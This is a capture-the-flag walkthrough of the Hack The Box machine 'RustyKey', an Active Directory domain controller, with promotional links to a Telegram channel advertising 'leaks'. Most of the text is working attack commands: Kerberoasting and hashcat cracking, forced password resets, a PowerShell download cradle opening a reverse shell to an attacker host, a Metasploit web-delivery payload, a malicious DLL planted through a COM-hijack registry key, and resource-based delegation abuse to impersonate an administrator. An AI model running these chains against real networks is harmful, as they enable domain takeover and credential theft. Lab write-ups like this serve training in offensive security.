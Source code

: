 **Platform:** Windows\
**IP:** 10.129.105.53\
**Difficulty:** Hard\
**Author:** NoSec

> 🚨 **Follow live on HTB — leaks, drops, and in-depth writeups**\
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)\
> *Don't read. Join.*

---

## Recon

```bash
nmap -sC -sV -Pn 10.129.105.53
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-28 23:25 CEST
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 23:25 (0:00:01 remaining)
Nmap scan report for 10.129.188.219
Host is up (0.099s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-29 05:25:30Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: rustykey.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m47s
| smb2-time: 
|   date: 2025-06-29T05:25:41
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.65 seconds
```

We are given a valid credential pair right away:

```
rr.parker / 8#t5HE8L!W3A
```

Edit the hosts file:

```bash
sudo nano /etc/hosts
10.129.105.53		rustykey.htb dc.rustykey.htb
```

Time synchronization is important:

```bash
sudo rdate -n RUSTYKEY.HTB
```

## Bloodhound

```bash
bloodhound-python -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -dc dc.rustykey.htb -gc dc.rustykey.htb -ns 10.129.105.53--disable-autogc -c all --zip
```

IT-COMPUTER3 has permission to add itself to the HELPDESK group, which has ForceChangePassword privileges over BB.Morgan — we'll abuse that.

Let's retrieve the password hash:

```bash
impacket-GetUserSPNs 'rustykey.htb/rr.parker:8#t5HE8L!W3A' -k -request -dc-ip 110.129.105.53-dc-host dc.rustykey.htb -usersfile users.txt -outputfile comp3.hash
```

Crack with Hashcat:

```bash
hashcat -m 13100 comp3.hash /usr/share/wordlists/rockyou.txt
```

Password: Rus<pass>

## Group Add + Password Reset

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k add groupMember HELPDESK 'IT-COMPUTER3$'
[+] IT-COMPUTER3$ added to HELPDESK
```

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k set password BB.MORGAN 'Password1234'
[+] Password changed successfully!
```

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k set password EE.REED 'Password123'
[+] Password changed successfully!
```

## Remove from Protected Objects

```bash
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rus<pass>' -k remove groupMember 'PROTECTED OBJECTS' 'IT'
[-] IT removed from PROTECTED OBJECTS
```

## Kerberos Configuration

```bash
sudo nano /etc/krb5.conf
```

```
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true
    rdns = false

[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
        admin_server = dc.rustykey.htb
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
```

## User Flag

```bash
impacket-getTGT 'RUSTYKEY.HTB/BB.MORGAN:Password1234'
export KRB5CCNAME=BB.MORGAN.ccache
```
```bash
└─$ evil-winrm -i dc.rustykey.htb -r RUSTYKEY.HTB
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> ls
*Evil-WinRM* PS C:\Users\bb.morgan\Documents> cd ..
*Evil-WinRM* PS C:\Users\bb.morgan> cd Desktop
*Evil-WinRM* PS C:\Users\bb.morgan\Desktop> ls


    Directory: C:\Users\bb.morgan\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/4/2025   9:15 AM           1976 internal.pdf
-ar---        6/29/2025  12:56 PM             34 user.txt
```

## Reverse Shell as ee.reed

```bash
rlwrap nc -lvnp 5566
```

```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.90:8888/Invoke-RunasCs.ps1'); Invoke-RunasCs -Username ee.reed -Password Password123! -Command cmd.exe -Remote 10.10.14.90:5566
```

## Web Delivery and COM Hijack, mm.turner reverse shell

```bash
rlwrap msfconsole -q -x 'use exploit/multi/script/web_delivery; set SRVPORT 8899; set LPORT 8989; set LHOST tun0; set TARGET PSH; set PAYLOAD windows/x64/meterpreter/reverse_tcp; run'
```

After that runs, execute the generated PS command on the target.

```bash
msfvenom -p windows/x64/exec CMD='<base64_encoded_ps>' EXITFUNC=none -f dll > x.dll
```

```bash
curl http://10.10.14.90:8888/x.dll -o \programdata\x.dll
```

```bash
reg add "HKLM\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /t REG_SZ /d "C:\\programdata\\x.dll" /f
```

```bash
rundll32.exe C:\\programdata\\x.dll,DllRegisterServer
```

## RBCD with mm.turner

```bash
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount IT-COMPUTER3$
```

```bash
impacket-getST -spn 'cifs/DC.rustykey.htb' -impersonate backupadmin -dc-ip $ip -k 'RUSTYKEY.HTB/IT-COMPUTER3$:Rus<pass>
```

```bash
export KRB5CCNAME=backupadmin@cifs_DC.rustykey.htb@RUSTYKEY.HTB.ccache
```

## Root flag

```bash
timpacket-smbexec -k -no-pass 'RUSTYKEY.HTB/backupadmin@dc.rustykey.htb'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>dir C:\Users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 00BA-0DBE

 Directory of C:\Users\Administrator\Desktop

06/24/2025  10:00 AM    <DIR>          .
06/24/2025  10:00 AM    <DIR>          ..
06/30/2025  07:32 AM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,911,215,616 bytes free
               
type C:\Users\Administrator\Desktop\root.txt
```
---

> Follow for more writeups, real-time leaks, and educational content: **👉 **[**https://t.me/nosecpwn**](https://t.me/nosecpwn)

